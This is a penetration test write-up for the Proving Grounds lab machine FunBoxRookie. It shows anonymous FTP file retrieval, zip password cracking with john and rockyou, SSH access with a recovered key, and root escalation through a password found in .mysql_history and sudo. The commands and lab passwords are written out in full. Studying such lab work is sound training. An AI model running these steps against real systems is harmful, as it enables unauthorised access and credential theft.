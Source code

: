 # Penetration Test Report for Proving Grounds - FunBoxRookie
- **Author:** Joey Melo
- **Date:** March 18, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.99.107 (FunBoxRookie)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized clients is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the FunBoxRookie network. The tester is tasked with following methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the FunBoxRookie network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the FunBoxRookie network. When performing the attacks, the tester was able to gain access to the machine, primarily due to FTP misconfigurations and weak password policy. The host has been sucessfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 21, 22, 80
### FTP Enumeration
Upon manual enumeration of the available FTP service, the tester noticed it had anonymous access enabled which allowed the tester to read all files in the FTP folder.
The content comprised of multiple password-protected zip files and an encoded message from admin informing that these files contain ssh keys.
![Directory listing of the FTP server](https://i.imgur.com/2tPQEWh.png)

## Initial Access
### Vulnerability Explanation
The FTP server allows anonymous access to sensitive files. Although these files are encrypted with password protection, the passwords used are weak and can be guessed with a simple word list. 
### Vulnerability Fix
Disable anonymous access to the FTP server and enforce a stronger password policy in the files. The tester recommends changing the files passwords immediately.
### Attack Walkthrough
Initial access was obtained to the FTP server with anonymous credentials and all files were transfer to the tester's machine.
```bash
ftp anonymous@192.168.99.107
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
```
The tester was able to decode the *.@admin* message and read its contents, which revealed that the zip files contain keys to the SSH server.
```bash
cat .@admins | base64 -d
```
![Contents of .@admins file](https://i.imgur.com/k5ytUEx.png)

Then, using a simple wordlist, two passwords were cracked. The zip files were extracted and they contained an access key to the SSH server. The tester decided to connect to the *tom* user.
```bash
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire
ssh -i id_rsa tom@192.168.99.107 
```
![Initial access via SSH](https://i.imgur.com/6QtQwpJ.png)

As proof of exploitation, the tester captured the *local.txt* flag.
![Redacted user flag](https://i.imgur.com/1p3so0y.png)

## Privilege Escalation
### Vulnerability Explanation
After establishing a foothold on the tagert, the tester noticed that the compromised user (*tom*) was a member of the *sudo* group, which allows him to execute commands with high privileges.
The tester also notice a *.mysql_history* file in the user's home directory, which contained a password. 
### Vulnerability Fix
Unless the *tom* user needs to execute privileged commands, remove him from the *sudo* group or limit its access to only specific applications. Morever, the tester recommends either not storing plaintext passwords in history files or backing up and cleaning these files frequently to avoid leaking sensitive information.
### Attack Walkthrough
A simple user and directory enumeration revealed that *tom* is a member of the *sudo* group, and his home directory contains the *.mysql_history* file.
```bash
id
ls -la
cat .mysql_history
```
![Password on .mysql_history](https://i.imgur.com/28yTcb9.png)

The tester then successfully reused the captured password to execute high-privileged commands and obtain a *root* shell.
```bash
sudo su
```
![Redacted root flag](https://i.imgur.com/1p3so0y.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.189.107

# Get FTP files
ftp anonymous@192.168.189.107 # blank password
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
cat .@admins | base64 -d

# Crack zip files
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire

# Initial access
ssh -i id_rsa tom@192.168.189.107 
pwd; id; cat local.txt; ifconfig

# Privilege escalation
ls -la
cat .mysql_history # pwd=xx11yy22!
sudo su
cd /root
pwd; id; cat proof.txt; ifconfig
```
